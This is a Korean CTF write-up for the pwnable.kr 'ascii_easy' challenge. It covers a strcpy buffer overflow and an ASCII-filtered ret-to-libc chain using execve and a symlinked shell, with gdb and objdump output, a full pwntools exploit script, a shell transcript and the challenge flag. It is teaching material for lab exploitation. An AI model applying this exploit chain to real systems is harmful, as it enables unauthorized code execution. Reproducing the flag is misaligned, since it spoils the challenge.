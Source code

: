 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-04-17-05-41.png)


# **Write-Up**

ascii_easy.c를 살펴보면 libc-2.15.so파일을 0x5555e000에 로드한다.

```cpp
... 생략 ...
#define BASE ((void*)0x5555e000)
... 생략 ...
int fd = open("/home/ascii_easy/libc-2.15.so", O_RDONLY);
    if( fstat(fd,&st) < 0){
        printf("open error. tell admin!\n");
        return;
    }

    len_file = st.st_size;
    if (mmap(BASE, len_file, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE, fd, 0) != BASE){
        printf("mmap error!. tell admin\n");
        return;
    }
... 생략 ...
```

그리고, 인자 값이 0x20이상이고 0x7f이하인지 확인한다.

```cpp
int is_ascii(int c){
    if(c>=0x20 && c<=0x7f) return 1;
    return 0;
}
```
is_ascii가 통과가 되면 입력 값 길이 검증이 없어 BoF가 일어나는 취약한 함수에 진입하게 된다.

```cpp
void vuln(char* p){
    char buf[20];
    strcpy(buf, p);
}
... 생략 ...
vuln(argv[1]);
```

buf의 시작 주소를 알아보면 ebp - 0x1C임을 알 수 있고, 이는 ret 까지 0x1C + 0x04만큼 더미를 채워야 한다는 것을 알 수 있다.

```sh
ascii_easy@pwnable:~$ gdb -q ./ascii_easy
Reading symbols from ./ascii_easy...(no debugging symbols found)...done.
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x08048518 <+0>:     push   %ebp
   0x08048519 <+1>:     mov    %esp,%ebp
   0x0804851b <+3>:     sub    $0x28,%esp
   0x0804851e <+6>:     sub    $0x8,%esp
   0x08048521 <+9>:     pushl  0x8(%ebp)
   0x08048524 <+12>:    lea    -0x1c(%ebp),%eax
   0x08048527 <+15>:    push   %eax
   0x08048528 <+16>:    call   0x8048380 <strcpy@plt>
... 생략 ...
```

/bin/sh문자열의 주소를 찾으면  libc-2.15.so에 존재하고, offset이 0x15d7ec임을 알 수 있다. base주소인 0x5555e000과 더하면 0x556bb7ec인데 0xec가 is_ascii함수에 필터링 될 것임으로 사용할 수 없다.

```sh
ascii_easy@pwnable:~$ strings -t x ascii_easy | grep /bin/sh
ascii_easy@pwnable:~$ strings -t x libc-2.15.so | grep /bin/sh
 15d7ec /bin/sh
```

os command를 사용할 수 있는 execve함수를 찾으면 offset 0xb876a에도 존재하며, base주소를 더하면 0x5561676a인데 이는 is_ascii함수를 통과할 수 있다.

```sh
ascii_easy@pwnable:~$ objdump -d libc-2.15.so | grep execve
... 생략 ...
   b876a:       e8 71 fe ff ff          call   b85e0 <execve@@GLIBC_2.0>
   b8802:       e8 d9 fd ff ff          call   b85e0 <execve@@GLIBC_2.0>
   b88c9:       e8 12 fd ff ff          call   b85e0 <execve@@GLIBC_2.0>
   b8967:       e8 74 fc ff ff          call   b85e0 <execve@@GLIBC_2.0>
   b8a32:       e8 a9 fb ff ff          call   b85e0 <execve@@GLIBC_2.0>
   b8c1b:       e8 c0 f9 ff ff          call   b85e0 <execve@@GLIBC_2.0>
   b8cda:       e8 01 f9 ff ff          call   b85e0 <execve@@GLIBC_2.0>
... 생략 ...
```

execve에 넣은 NULL 주소를 찾자. ascii에 해당하는 값을 찾아야 하므로 0x55566366을 사용하겠다.

```sh
ascii_easy@pwnable:~$ gdb -q ascii_easy
Reading symbols from ascii_easy...(no debugging symbols found)...done.
(gdb) disas main
... 생략 ...
(gdb) b *main+200
Breakpoint 1 at 0x80485fb
(gdb) r abc
Starting program: /home/ascii_easy/ascii_easy abc

Breakpoint 1, 0x080485fb in main ()
(gdb) find 0x55562000, +100000, 0x00
... 생략 ...
0x55566366
... 생략
(gdb) x/x 0x55566366
0x55566366:     0x00000000
```

/bin/sh를 실행할 수 없으니 /bin/sh을 symbolic link를 이용하여 호출해볼 수 있겠다. 그러기 위한 문자열을 찾고 그 중 is_ascii에 걸리는 지 확인해야한다.

여기서는 operation라는 문자열을 사용하겠다.

```sh
ascii_easy@pwnable:~$ strings -t x libc-2.15.so
... 생략 ...
 159d15 Invalid floating-point operation
... 생략 ...
```

```sh
ascii_easy@pwnable:~$ gdb -q ascii_easy
Reading symbols from ascii_easy...(no debugging symbols found)...done.
(gdb) b *main+200
Breakpoint 1 at 0x80485fb
(gdb) r abc
Starting program: /home/ascii_easy/ascii_easy abc

Breakpoint 1, 0x080485fb in main ()
(gdb) x/s 0x556b7d2c
0x556b7d2c:     "operation"
```

심볼릭 링크를 만들고 심볼릭 링크를 만든 위치에 대한 환경변수를 설정하자.

```sh
ascii_easy@pwnable:~$ mkdir /tmp/2honrr_ascii
ascii_easy@pwnable:~$ cd /tmp/2honrr_ascii
ascii_easy@pwnable:/tmp/2honrr_ascii$ ln -s /bin/bash operation
ascii_easy@pwnable:/tmp/2honrr_ascii$ ./operation
ascii_easy@pwnable:/tmp/2honrr_ascii$ exit
exit
ascii_easy@pwnable:/tmp/2honrr_ascii$ export PATH=$PATH:/tmp/2honrr_ascii
```

exploit 코드를 작성하자.

```sh
ascii_easy@pwnable:/tmp/2honrr_ascii$ vi exploit.py
```

```python
from pwn import *

base = 0x5555e000
execve = base + 0xb876a
name = base + 0x159d15 + len('Invalid floating-point ')
null = 0x55566366

payload = 'A' * (0x1C + 0x04)
payload += p32(execve)
payload += p32(name)
payload += p32(null)
payload += p32(null)

p = process(['/home/ascii_easy/ascii_easy', payload])
p.interactive()
ascii_easy@pwnable:/tmp/2honrr_ascii$ python exploit.py
[+] Starting local process '/home/ascii_easy/ascii_easy': pid 446145
[*] Switching to interactive mode
triggering bug...
$ cat /home/ascii_easy/flag
damn you ascii armor... what a pain in the ass!! :(
$
```


# **FLAG**

**damn you ascii armor... what a pain in the ass!! :(**